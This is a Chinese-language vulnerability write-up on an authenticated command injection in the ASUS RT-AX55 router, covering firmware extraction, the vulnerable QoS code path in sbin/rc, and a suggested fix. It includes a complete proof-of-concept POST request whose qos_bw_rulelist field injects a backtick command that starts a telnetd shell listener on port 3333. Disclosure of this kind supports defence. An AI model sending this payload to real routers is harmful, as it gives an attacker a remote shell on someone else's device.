 # 0x01  漏洞描述 #

`asus RT-AX55` 路由器存在身份验证后的命令注入漏洞。

# 0x02  固件分析 #

固件下载：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
直接binwalk用-Me提取即可

# 0x03  代码分析 #

分析`sbin/rc`二进制文件，在函数`FUN_0001e168`中，从http请求参数`action_script`获取`restart_qos`值，进而进入函数`FUN_0006fbcc`。

![](./img//1.png)

在函数`FUN_0006fbcc`中，当nvram的`qos_enable`为1且`qos_type`为2时，调用`FUN_0006cc04`函数。

![](./img//2.png)

进入函数`FUN_0006cc04`，先打开一个`/tmp/qos`的shell脚本，从nvram中获得`qos_bw_rulelist`的值，把`qos_bw_rulelist`的值以">"切割5个子字符串，然后将其第3个字符串的值，即`local_22c`变量，写进`/tmp/qos`的shell脚本，最后调用`_eval`函数执行`/tmp/qos`的shell脚本的start函数。

![](./img//3.png)

![](./img//4.png)

![](./img//5.png)

# 0x04  漏洞复现 #

request:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 428
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/QoS_EZQoS.asp
    Cookie: clickedItem_tab=1; asus_token=b63QlsWOpMozaPKRPxR8iTB9SdVzKNK; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    preferred_lang=CN&firmver=3.0.0.4&current_page=QoS_EZQoS.asp&next_page=QoS_EZQoS.asp&group_id=&action_mode=apply&action_script=restart_qos%3Brestart_firewall%3B&action_wait=15&flag=&TM_EULA=1&qos_enable=1&qos_enable_orig=1&qos_type_orig=2&qos_type=2&qos_bw_rulelist=1%3EA0%3A29%3A19%3A17%3A70%3A32%3E`telnetd%20-l%20/bin/sh%20-p%203333`%3E5120%3E0&qos_type_radio=2&bw_setting_name=on&obw=0.00&ibw=0.00&obw1=&ibw1=&PC_devicename=
    
![](./img//6.png)

![](./img//7.png)

# 0x05  漏洞修复 #

过滤`qos_bw_rulelist`的中  `反引号 ; | & $` 和 `换行符` 字符。